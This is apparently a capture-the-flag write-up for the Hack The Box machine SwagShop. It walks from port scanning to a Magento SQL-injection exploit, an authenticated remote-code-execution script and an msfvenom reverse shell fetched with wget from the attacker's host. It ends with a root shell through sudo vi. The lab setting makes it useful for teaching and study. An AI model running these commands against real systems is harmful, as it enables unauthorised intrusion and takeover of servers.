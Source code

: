 # HTB SwagShop
## OS: Linux
## Difficulty: Easy

### Enumeration:
I'll start with a port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.229.138
```

```bash

```

Taking a look at port 80 we get a redirect to 'swagshop.htb'.htb so I'll add the domain to the hosts file.

We get to this page:

![page](IMG/img1.png)

Whatweb reveals it uses magento. I'll run gobuster to find more pages.

```bash
whatweb http://swagshop.htb
http://swagshop.htb

 [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.129.229.138], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

```bash
gobuster dir -u http://swagshop.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,js
```
Results:
```
/index.php            (Status: 200) [Size: 16097]
/media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
/includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
/install.php          (Status: 200) [Size: 44]
/app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
/js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
/api.php              (Status: 200) [Size: 37]
/shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
/cron.php             (Status: 200) [Size: 0]
/LICENSE.txt          (Status: 200) [Size: 10410]
/var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
/errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
```

Looking through the directories I found the Magento version used in http://swagshop.htb/var/package/Mage_Locale_zh_CN-1.9.0.0.xml. It's 1.9.0.0. 
I also found a file that has an username and a password for the data base. ( http://swagshop.htb/app/etc/local.xml ) 

```
root:fMVWh7bDHpgZkyfqQXreTjU9
```

https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/README.md

### Foothold:

I found an exploit for this version.

https://blog.checkpoint.com/security/analyzing-magento-vulnerability/

https://www.exploit-db.com/exploits/37977

After removing the comments and changing the target's url to "http://swagshop.htb/index.php" I run the exploit.

```bash
python2 exploit.py

#Result:
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

Now let's login with these credentials and check the admin panel.

![adminP](IMG/img2.png)

I also found an authenticated RCE exploit. https://github.com/Hackhoven/Magento-RCE

```bash
python3 rce.py http://swagshop.htb/index.php/admin "whoami"

www-data
```

Now let's get a shell. First I'll generate a payload with msfvenom and start a web server and start the multi/handler.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.53 LPORT=6666 -f elf >reverse.elf

python3 -m http.server -b 10.10.14.53

sudo msfconsole
use multi/handler
set LHOST 10.10.14.53
set LPORT 6666
```

Now we get the file on the target system and execute it.

```bash
python3 rce.py http://swagshop.htb/index.php/admin "wget http://10.10.14.53:8000/reverse.elf"

python3 rce.py http://swagshop.htb/index.php/admin "chmod +x reverse.elf"

python3 rce.py http://swagshop.htb/index.php/admin "./reverse.elf"
```

![shell](IMG/img3.png)

It worked! I'll upgrade the shell.

```bash
[Ctrl+Z]
sessions -u 1

sessions -i 2
```

### Privilege Escalation:

Using "sudo -l" we find out we can run a script as the root user.

```bash
/usr/bin/vi /var/www/html/*
```

We can use vim to spawn a shell using ":!/bin/bash -i".

```bash
E

:!/bin/bash -i
```

![root](IMG/img4.png)

And it works. Now we can get the 2 flags.

```bash
cat /home/*/user.txt

cat /root/root.txt
```

### We got the flags!